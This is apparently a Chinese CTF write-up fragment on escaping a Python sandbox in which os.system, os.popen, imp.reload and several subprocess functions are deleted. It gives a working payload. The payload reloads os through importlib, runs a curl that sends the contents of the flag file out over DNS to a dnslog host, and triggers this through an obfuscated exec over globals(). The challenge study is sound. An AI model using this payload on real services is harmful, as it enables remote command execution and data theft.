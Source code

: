 > 同样给出源码，和444区别是import部分
>
> import了os，但是把其中的`system`和`popen`给`del`掉了
>
> ```python
> import os
> del os.system
> del os.popen
> ```
>
> 参考y4师傅`reload`加载模块：
>
> ```python
> from importlib import reload;import os;reload(os);
> ```

```
?True=from importlib import reload;import os;reload(os);os.system('curl `cat /f*`.xxx.dnslog.cn')

post：
code=str(exec(globals()[list(globals().keys())[True-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)]].args.get(str(True))))
```

> 446虽然把reload删了，但是引用的模块不一样，所以上面的payload还是能过
>
> ```python
> import os
> import imp
> del os.system
> del os.popen
> del imp.reload
> ```



> 447,del了更多东西，但跟咱们的payload没啥关系
>
> ```python
> import os
> import imp
> del os.system
> del os.popen
> del imp.reload
> import subprocess
> del subprocess.Popen
> del subprocess.call
> del subprocess.run
> del subprocess.getstatusoutput
> del subprocess.getoutput
> del subprocess.check_call
> del subprocess.check_output
> import timeit
> del timeit.timeit
> ```
